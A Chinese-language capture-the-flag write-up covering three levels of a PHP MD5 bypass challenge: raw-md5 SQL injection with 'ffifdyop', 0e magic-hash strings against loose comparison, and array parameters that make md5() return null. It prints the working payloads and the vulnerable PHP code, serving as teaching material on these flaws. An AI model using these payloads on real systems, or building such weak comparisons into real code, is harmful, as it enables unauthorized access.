



考察了各种MD5的绕过方法，包括数组绕过、弱类型比较绕过、md5($password, true)的绕过方式

## Level 1



点进题目看到这样一个框，尝试了下，发现通过 ```GET``` 请求的 ```password``` 参数传参，那么这个自然就是密码了。

抓包发现在Headers里有这样一条Hint



```SQL
select * from 'admin' where password=md5($pass,true)
```

查了查，```md5()``` 第二个参数被设为```true```时，函数返回的是原始二进制格式的16个字节，```false```时才是用0-f组成的字符串。

于是这里如果正好```md5```的结果可以组成```'or true```的形式，就可以实现注入。

常用的一个payload是
```
ffifdyop
```
md5结果为```276f722736c95d99e921722cf9ed621c```，作为二进制串时被解析为```'or'6<trash>```。

于是用这个payload绕过第一关

```
?password=ffifdyop
```

## Level 2


第二关进来后查看网页源代码

```PHP
$a = $GET['a'];
$b = $_GET['b'];

if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
}
```

这里用的是双等号的弱比较，我们通过下面这几个字串送进md5，得到0e开头的科学计数法数字，通过双等号的判断。

```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
```

```
?a=QNKCDZO&b=240610708
```

## Level 3

一进去就给了源码

```PHP
<?php
error_reporting(0);
include "flag.php";

highlight_file(__FILE__);

if($_POST['param1']!==$_POST['param2']&&md5($_POST['param1'])===md5($_POST['param2'])){
    echo $flag;
}
```

这里三等号的强相等无法用前面的方法绕过。所以还有另外的一些PHP特性

```PHP
md5(array()) = null
sha1(array()) = null    
ereg(pattern,array()) = null vs preg_match(pattern,array) = false
strcmp(array(), "abc") = null
strpos(array(),"abc") = null
```

这样我们只要传两个数组进去让PHP比较，就会产生```null===null```的结果了。

payload:

```
param1[]=1&param2[]=2
```

